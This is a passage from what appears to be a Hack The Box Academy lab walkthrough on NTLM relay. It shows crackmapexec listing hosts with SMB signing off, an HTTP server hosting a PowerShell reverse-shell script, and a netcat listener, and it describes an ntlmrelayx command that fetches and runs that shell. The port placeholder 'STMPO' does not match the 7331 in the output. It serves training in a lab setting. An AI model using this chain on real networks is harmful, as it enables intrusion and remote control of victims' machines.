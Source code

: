 Once students have altered and verified the configuration, they will have to generate a target file of computers with SMB signing `disabled` (False). Utilizing `crackmapexec` and its `--gen-relay-list` parameter, students can generate a file containing the targets over the SMB protocol:

Code: shell

```shell
crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Subsequently, students need to have another established SSH session onto the spawned target, as they will have to utilize `ntlmrelayx` with the `--command/-c` option specifying a PowerShell command to download the reverse shell module (`Invoke-PowerShellTcp.ps1`) located at `tools/` directory, and by combining the command that starts/sends the reverse shell to the specified port in our listener (`nc`).

They will have to start a Python HTTP server by utilizing Python's `http.server` module on port 8000.

Code: shell

```shell
cd tools/
python3 -m http.server 8000
```

```shell-session
htb-student@ubuntu:~$ cd tools/
htb-student@ubuntu:~/tools$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Additionally, students will have to start the netcat (`nc`) listener in another terminal window.

Code: shell

```shell
nc -nvlp STMPO
```

```shell-session
htb-student@ubuntu:~$ nc -nvlp 7331

Listening on 0.0.0.0 7331
```

Once students have started the Python HTTP server, and the netcat listener, they will have to navigate to `tools/Responder` and start `Responder.py` using `sudo` to poison requests/traffic by specifying the interface (`ens192`) using the `-I` option:
